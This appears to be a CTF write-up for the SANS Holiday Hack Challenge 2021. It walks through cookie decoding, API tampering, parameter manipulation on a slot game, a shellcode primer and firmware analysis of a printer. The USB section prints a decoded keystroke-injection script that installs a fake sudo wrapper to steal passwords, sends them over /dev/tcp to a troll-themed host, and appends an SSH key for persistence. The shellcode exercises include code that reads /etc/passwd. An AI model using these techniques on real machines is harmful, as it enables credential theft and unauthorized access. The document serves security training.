




# SANS Holiday Hack Challenge 2021


## 1) KringleCon Orientation

We can clear this challenge by going through a tutorial on using the Kringlecon terminal.


## 2) Where in the World is Caramel Santaigo?


We are supposed to investigate to get all the hints in order to figure out who the elf is. This is rather tedious.

Instead, we can use `Burpsuite` to intercept the request. We can see that a Flask session cookie is being sent (Start with `.`).


We can see the content by decoding using Base64 (URL-safe), then zlib decompress it. Now we can see who the elf is without playing through the game!


It's Piney Sappington!


## 3) Thaw Frost Tower's Entrance


We open up the dongle and scan for available WiFi using `iwlist`.

```sh
>> iwlist scan 
wlan0     Scan completed :
          Cell 01 - Address: 02:4A:46:68:69:21
                    Frequency:5.2 GHz (Channel 40)
                    Quality=48/70  Signal level=-62 dBm  
                    Encryption key:off
                    Bit Rates:400 Mb/s
                    ESSID:"FROST-Nidus-Setup"
```

Using `iwconfig`, we connect to it using its ESSID.

```sh
>> iwconfig wlan0 essid "FROST-Nidus-Setup"
** New network connection to Nidus Thermostat detected! Visit http://nidus-setup:8080/ to complete setup
(The setup is compatible with the 'curl' utility)
```

Visiting the following website, we can see that we can register the thermostat or read the API documentation.

```sh
>> curl http://nidus-setup:8080/                                             ◈──────────────────────────────────────────────────────────────────────────────◈

Nidus Thermostat Setup

◈──────────────────────────────────────────────────────────────────────────────◈

WARNING Your Nidus Thermostat is not currently configured! Access to this
device is restricted until you register your thermostat » /register. Once you
have completed registration, the device will be fully activated.

In the meantime, Due to North Pole Health and Safety regulations
42 N.P.H.S 2600(h)(0) - frostbite protection, you may adjust the temperature.

API

The API for your Nidus Thermostat is located at http://nidus-setup:8080/apidoc
```

The registration page seems useless since we do not have access to obtain the serial number. Let us look at the API documentation instead.

```sh
curl http://nidus-setup:8080/register
◈──────────────────────────────────────────────────────────────────────────────◈

Nidus Thermostat Registration

◈──────────────────────────────────────────────────────────────────────────────◈

Welcome to the Nidus Thermostat registration! Simply enter your serial number
below to get started. You can find the serial number on the back of your
Nidus Thermostat as shown below:

+------------------------------------------------------------------------------+
|                                                                              |
|                                                                              |
|                              ....'''''''''''''...                            |
|                         .'''...  ...............',,,'.                       |
|                     .''.        ........''',,,;;;;,'.',,'.                   |
|                  .,'.                   ......'',;;;;;;,.',;.                |
|                ',.l.                          ....'',;:::;:xl:,              |
|              ,,.                                  ....',;:cl:,,::            |
|            .,,                      ,::::,           ....';:cc:;cx,          |
|          .'  .                     :dkkkkd;             ...';:ccdc.;.        |
|         ..                                                ...';::c;.,'       |
|        '.                                                  ...';:c:;'.;      |
|       .                                                      ...,;::;,.;     |
|      ..                          ....'.'.'.''                 ...';::;'.,    |
|      .                          .. ';'.'..,..                  ...,;::;.;.   |
|     '                                ..  .. .                   ...,::;,.c   |
|     .                                                           ...';::;';.  |
|    '                                                             ...,;:;,.;  |
|    ,                              ...........                    ...,;:;;.c  |
|    ,      ...                     .  .....  .                   .;:l:;::;.l  |
|    ;      .x.                     ....   ....                   .:ccc;:;;.l  |
|    ,      ...                     ......... .                   ...',;;;,.c  |
|    '.                             ...... . ..                    ...,;;;'.,  |
|     ;                             .  .   ....                   ...',;;,.:   |
|     ;                             ...........                  ....',;,'.;   |
|      :                                                        ....',,,'.c    |
|      .,              ----->       xx.x..x.x.x                .....',,'.:.    |
|       ''                                                    .....',,'.:.     |
|        ',                ......'';oxxxxxxdc.              ......''''.:.      |
|         .:               ....'ldlx00KKKKXXXd.l;         ......',''..:.       |
|           ;,'              ...,;coO0000KKKO:...       .......',;lc:;         |
|            .l;                ....,;;;;;,'....... .........'''.'ol.          |
|              'o;..                .......................'',''lo.            |
|                .:o.                     ..................'kdc.              |
|                  .,c;.                     .............,cc'                 |
|                      ':c:'.              ..........';cc:.                    |
|                          .;ccc:;,'.........',;:cllc,.                        |
|                               ...,;;::::::;,'..                              |
|                                                                              |
|                                                                              |
|                                                                              |
|                                                                              |
+------------------------------------------------------------------------------+


  Serial Number: ______________________


             +------------+
             |   Submit   |
             +------------+
```

Seems like we can adjust the temperature if the cooler without registering. Note that if we set the temperature above 0, we can melt furniture.. or the ice on the door.

```sh
>> curl http://nidus-setup:8080/apidoc
◈──────────────────────────────────────────────────────────────────────────────◈

Nidus Thermostat API

◈──────────────────────────────────────────────────────────────────────────────◈

The API endpoints are accessed via:

http://nidus-setup:8080/api/<endpoint>

Utilize a GET request to query information; for example, you can check the
temperatures set on your cooler with:

curl -XGET http://nidus-setup:8080/api/cooler

Utilize a POST request with a JSON payload to configuration information; for
example, you can change the temperature on your cooler using:

curl -XPOST -H 'Content-Type: application/json' \
  --data-binary '{"temperature": -40}' \
  http://nidus-setup:8080/api/cooler


● WARNING: DO NOT SET THE TEMPERATURE ABOVE 0! That might melt important furniture

Available endpoints

┌─────────────────────────────┬────────────────────────────────┐
│ Path                        │ Available without registering? │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/cooler                 │ Yes                            │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/hot-ice-tank           │ No                             │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/snow-shower            │ No                             │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/melted-ice-maker       │ No                             │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/frozen-cocoa-dispenser │ No                             │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/toilet-seat-cooler     │ No                             │ 
├─────────────────────────────┼────────────────────────────────┤
│ /api/server-room-warmer     │ No                             │ 
└─────────────────────────────┴────────────────────────────────┘
```

By setting the temperature to 100, we manage to melt the ice on the door.

```sh
>> curl -XPOST -H 'Content-Type: application/json'   --data-binary '{"temperature": 100}'   http://nidus-setup:8080/api/cooler
{
  "temperature": 99.54,
  "humidity": 89.13,
  "wind": 22.82,
  "windchill": 121.33,
  "WARNING": "ICE MELT DETECTED!"
}
```

## 4) Slot Machine Investigation


We are greeted by this Christmas-themed slot game upon entering.


We can set the bet size and level before spinning the slots. There should be some data sent over to the server to determine if we win or not. Let's use Burpsuite to intercept the traffic.


The following parameters were sent. Let's use the Repeater to modify these values.

```
betamount=1&numline=20&cpl=0.1
```

When we send a normal request, there is are JSON data sent back in the response.


Sending a large `betamount` tells us that we have not enough credit, while a negative value tells us that the betamount must be greater than or equal 0.


I tried the same for `numline`. But this time, when `numline=-1` was sent consecutively, I notice that my credit increased from 97.5 to 97.6. Seems like we can manipulate `numline` with large negative numbers to get more credits!


By sending a large negative number, we obtained a large number of credits but not without a warning from the casino: "I'm going to have some bouncer trolls bounce you right out of this casino!".


## 5) Strange USB Device


We check out the `/mnt/USBDEVICE` directory. There's an inject.bin file with no permission for us.

```sh
>> ls -la /mnt/USBDEVICE/
total 12
drwxr-xr-x 1 root root 4096 Dec  3 16:25 ./
drwxr-xr-x 1 root root 4096 Dec  3 16:25 ../
-rw-r--r-- 1 root root 2090 Nov 30 22:14 inject.bin
```

Checking the current directory gives us a mallard.py file. Running it gives us information on how to use it. Basically this script can help to decode ducky script.

```sh
>> ls -la
total 32
drwxr-xr-x 1 elf  elf  4096 Dec  8 03:10 ./
drwxr-xr-x 1 root root 4096 Dec  3 16:25 ../
-rw-r--r-- 1 elf  elf   220 Aug  4 20:25 .bash_logout
-rw-r--r-- 1 root root   97 Nov 30 22:14 .bashrc
-rw-r--r-- 1 elf  elf   807 Aug  4 20:25 .profile
-rwxr-xr-x 1 root root 8802 Nov 30 22:14 mallard.py*

>> python3 mallard.py
usage: mallard.py [-h] [--file FILE] [--no_analyze] [--output_file OUTPUT_FILE]
                  [--analysis_file ANALYSIS_FILE] [--debug]

optional arguments:
  -h, --help            show this help message and exit
  --file FILE, -f FILE  The file to decode, default: inject.bin
  --no_analyze, -A      Include this switch to turn off analysis of the duckyfile
  --output_file OUTPUT_FILE, -o OUTPUT_FILE
                        File to save decoded ducky script to. Default will print duckyfile to
                        screen.
  --analysis_file ANALYSIS_FILE
                        Location to output analysis. Default will print analysis to screen.
  --debug               Enable Debug Logging.
```

We can pass the `inject.bin` into this script to decode it. A weird string which resembles base64 stood out.

```sh
>> python3 mallard.py --file /mnt/USBDEVICE/inject.bin 
ENTER
DELAY 1000
GUI SPACE
DELAY 500
STRING terminal
ENTER
DELAY 500
GUI -
GUI -
GUI -
GUI -
GUI -
STRING  /bin/bash
ENTER
DELAY 500
STRING mkdir -p ~/.config/sudo
ENTER
DELAY 200
STRING echo '#!/bin/bash > ~/.config/sudo/sudo
ENTER
STRING /usr/bin/sudo $@ 
ENTER
STRING echo -n "[sudo] password for $USER: "
ENTER
STRING read -s pwd
ENTER
STRING echo
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S true 2>/dev/null
ENTER
STRING if [ $? -eq 1 ]
ENTER
STRING then
ENTER
STRING echo "$USER:$pwd:invalid" > /dev/tcp/trollfun.jackfrosttower.com/1337
ENTER
STRING echo "Sorry, try again."
ENTER
STRING sudo $@
ENTER
STRING else
ENTER
STRING echo "$USER:$pwd:valid" > /dev/tcp/trollfun.jackfrosttower.com/1337
ENTER
STRING echo "$pwd" | /usr/bin/sudo -S $@
ENTER
STRING fi
ENTER
STRING fi' > ~/.config/sudo/sudo
ENTER
DELAY 200
STRING chmod u+x ~/.config/sudo/sudo
ENTER
DELAY 200
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bash_profile
ENTER
DELAY 200
STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bashrc
ENTER
DELAY 200
STRING echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d | bash
ENTER
DELAY 600
STRING history -c && rm .bash_history && exit
ENTER
DELAY 600
GUI q
```

Basically the string will be reversed and base64 decoded before executing in bash. We can decode it using the same command. Here, we managed to get the flag `ickymcgoop`.
```sh
>> echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d
echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_key
```

## 6) Shellcode Primer


We are expected to solve a series of x86 assembly-related questions. I have extracted some of the questions I find useful for learning purposes.

### 5. System Calls
If you're familiar with Python, you might know how to use the open() function. If you know C, you might know the fopen() function. But what these and similar functions have in common is one thing: they're library code. And because shellcode needs to be self contained, we don't have (easy) access to library code!

So how do we deal with that?

Linux has something called a syscall, or system call. A syscall is a request that a program makes that asks Linux - the kernel - to do something. And it turns out, at the end of the day, all of those library calls ultimately end with a syscall. [Here is a list of available syscalls](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) on x64 [(alternative)](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md)

To perform a syscall:

- The number for the desired syscall is moved into rax
- The first parameter is moved into rdi, the second into rsi, and the third into rdx (there are others, but not many syscalls need more than 3 parameters)
- Execute the syscall instruction

The second syscall executes, Linux flips into kernel mode and we can no longer debug it. When it's finished, it returns the result in rax.

For this challenge, we're going to call sys_exit to exit the process with exit code 99.

Can you prepare rax and rdi with the correct values to exit?

As always, feel free to mess around as much as you like!

```
; TODO: Find the syscall number for sys_exit and put it in rax
mov rax, 60

; TODO: Put the exit_code we want (99) in rdi
mov rdi, 99

; Perform the actual syscall
syscall
```

### 6. Calling Into the Void

Before we learn how to use the Really Good syscalls, let's try something fun: crash our shellcode on purpose!

You might think I'm mad, but there's a method to my madness. Run the code below and watch what happens! No need to modify it, unless you want to. :)

Be sure to look at the debugger to see what's going on! Especially notice the top of the stack at the ret instruction.

```
; Push this value to the stack
push 0x12345678

; Try to return
ret
```

### 7. Getting RIP

What happened in the last exercise? Why did it crash at 0x12345678? And did you notice that 0x12345678 was on top of the stack when ret happened?

The short story is this: call pushes the return address onto the stack, and ret jumps to it. Whaaaat??

This is going to be long, but hopefully will make it all clear!

Let's back up a bit. At any given point, the instruction currently being executed is stored in a special register called the instruction pointer (rip), which you may also hear called a program counter (pc).

What is the rip value at the first line in our code? Well, since we have a debugger, we know that it's 0x13370000. But sometimes you don't know and need to find out.

The most obvious answer is to treat it like a normal register, like this:

mov rax, rip

ret

Does that work? Nope! You can't directly access rip. That means we need a trick!

When you use call in x64, the CPU doesn't care where it's calling, or whether there's a ret waiting for it. The CPU assumes that, if the author put a call in, there will naturally be a ret on the other end. Doing anything else would just be silly! So call pushes the return address onto the stack before jumping into a function. When the function complete, the ret instruction uses the return address on the stack to know where to return to.

The CPU assumes that, sometime later, a ret will execute. The ret assumes that at some point earlier a call happened, and that means that the top of the stack has the return address. The ret will retrieve the return address off the top of the stack (using pop) and jump to it.

Of course, we can execute pop too! If we pop the return address off the stack, instead of jumping to it, the address goes into a register. Hmm! Does that also sound like mov REG, rip to you?

For this exercise, can you pop the address after the call - the No Op (nop) instruction - into rax then return?

```
; Remember, this call pushes the return address to the stack
call place_below_the_nop

; This is where the function *thinks* it is supposed to return
nop

; This is a 'label' - as far as the call knows, this is the start of a function
place_below_the_nop:

; TODO: Pop the top of the stack into rax
pop rax

; Return from our code, as in previous levels
ret
```

### 8. Hello, World!

So remember how last level, we got the address of nop and returned it?

Did you see that nop execute? Nope! We jumped right over it, but stored its address en-route. What can we do by knowing our own address?

Well, since shellcode is, by definition, self-contained, you can do other fun stuff like include data alongside the code!

What if the return address isn't an instruction at all, but a string?

For this next exercise, we include a plaintext string - 'Hello World' - as part of the code. It's just sitting there in memory. If you look at the compiled code, it's all basically Hello World, which doesn't run.

Instead of trying to run it, can you call past it, and pop its address into rax?

Don't forget to check the debugger after to see it in rax!

```
; This would be a good place for a call
call place_below_helloworld

; This is the literal string 'Hello World', null terminated, as code. Except
; it'll crash if it actually tries to run, so we'd better jump over it!
db 'Hello World',0

; This would be a good place for a label and a pop
place_below_helloworld:
pop rax

; This would be a good place for a re... oh wait, it's already here. Hooray!
ret
```

### 9. Hello, World!!

Remember syscalls? Earlier, we used them to call an exit. Now let's try another!

This time, instead of getting a pointer to the string Hello World, we're going to print it to standard output (stdout).

Have another look [at the syscall table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/). Can you find sys_write, and use to to print the string Hello World! to stdout?

Note: stdout's file descriptor is 1.

```
; TODO: Get a reference to this string into the correct register
call get_helloworld_string
db 'Hello World!',0

get_helloworld_string:

; Set up a call to sys_write
; TODO: Set rax to the correct syscall number for sys_write
mov rax,1

; TODO: Set rdi to the first argument (the file descriptor, 1)
mov rdi,1

; TODO: Set rsi to the second argument (buf - this is the "Hello World" string)
pop rsi

; TODO: Set rdx to the third argument (length of the string, in bytes)
mov rdx,12

; Perform the syscall
syscall

; Return cleanly
ret
```

### 10. Opening a File

We're getting dangerously close to do something interesting! How about that?

Can you use the sys_open syscall to open /etc/passwd, then return the file handle (in rax)?

Have another look at the syscall table. Can you call sys_open on the file /etc/passwd, then return the file handle? Here's the [syscall table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) again.

```
; TODO: Get a reference to this string into the correct register
call get_etcpasswd_top_of_stack
db '/etc/passwd',0

get_etcpasswd_top_of_stack:
; Set up a call to sys_open
; TODO: Set rax to the correct syscall number
mov rax,2
; TODO: Set rdi to the first argument (the filename)
pop rdi
; TODO: Set rsi to the second argument (flags - 0 is fine)
mov rsi,0
; TODO: Set rdx to the third argument (mode - 0 is also fine)
mov rdx,0

; Perform the syscall
syscall

; syscall sets rax to the file handle, so to return the file handle we don't
; need to do anything else!
ret
```

### 11. Reading a File

Do you feel ready to write some useful code? We hope so! You're mostly on your own this time! Don't forget that you can reference your solutions from other levels!

For this exercise, we're going to read a specific file… let's say, /var/northpolesecrets.txt… and write it to stdout. No reason for the name, but since this is Jack Frost's troll-trainer, it might be related to a top-secret mission!

Solving this is going to require three syscalls! Four if you decide to use sys_exit - you're welcome to return or exit, just don't forget to fix the stack if you return!

First up, just like last exercise, call sys_open. This time, be sure to open /var/northpolesecrets.txt.

Second, find the sys_read entry on the syscall table, and set up the call. Some tips:

The file descriptor is returned by sys_open
The buffer for reading the file can be any writeable memory - rsp is a great option, temporary storage is what the stack is meant for
You can experiment to find the right count, but if it's a bit too high, that's perfectly fine
Third, find the sys_write entry, and use it to write to stdout. Some tips on that:

The file descriptor for stdout is always 1
The best value for count is the return value from sys_read, but you can experiment with that as well (if it's too long, you might get some garbage after; that's okay!)
Finally, if you use rsp as a buffer, you won't be able to ret - you're going to overwrite the return address and ret will crash. That's okay! You remember how to sys_exit, right? :)

(For an extra challenge, you can also subtract from rsp, use it, then add to rsp to protect the return address. That's how typical applications do it.)

Good luck!

```
; TODO: Get a reference to this
call save_northpolesecrets_to_top_of_stack
db '/var/northpolesecrets.txt',0

save_northpolesecrets_to_top_of_stack:
; TODO: Call sys_open
mov rax, 2; sys_open
pop rdi; filename
mov rsi, 0
mov rdx, 0
syscall

; TODO: Call sys_read on the file handle and read it into rsp
mov rdi,rax; file descriptor returned by sys_open, stored in rax
mov rax, 0; sys_read
mov rsi, rsp; buffer
mov rdx, 1000; length
syscall

; TODO: Call sys_write to write the contents from rsp to stdout (1)
mov rdx, rax; length returned by sys_read, stored in rax
mov rax, 1; sys_write
mov rdi, 1; std_out
mov rsi, rsp; buffer
syscall

; TODO: Call sys_exit
mov rax, 60
mov rdi, 99
syscall
```

Answering the last question, we managed to get the answer.


## 7) Printer Exploitation


After navigating through the pages, I realised that there is a page whereby we can upload the firmware.


There is a firmware file to download, called `firmware-export.json`. The firmware value is in Base64.

```sh
>> cat firmware-export.json

{"firmware":"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","signature":"e0b5855c6dd61ceb1e0ae694e68f16a74adb6f87d1e9e2f78adfee688babcf23","secret_length":16,"algorithm":"SHA256"}
```

Using `CyberChef`, the decoded data turns out to be a zip file (PK header). We extract it and there is a `firmware.bin`, which is an ELF binary.


```
>> file firmware.bin            
firmware.bin: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=fc77960dcdd5219c01440f1043b35a0ef0cce3e2, not stripped
```

Running it simply tells us that the firmware is up to date. I used Ghidra to check it out and it simply execute a puts function.

```sh
>> ./firmware.bin
Firmware is fully up to date!
```


I uploaded the given firmware and it mentioned that the update package is executed in the background. Seems like there is a chance of remote code execution(RCE)! 


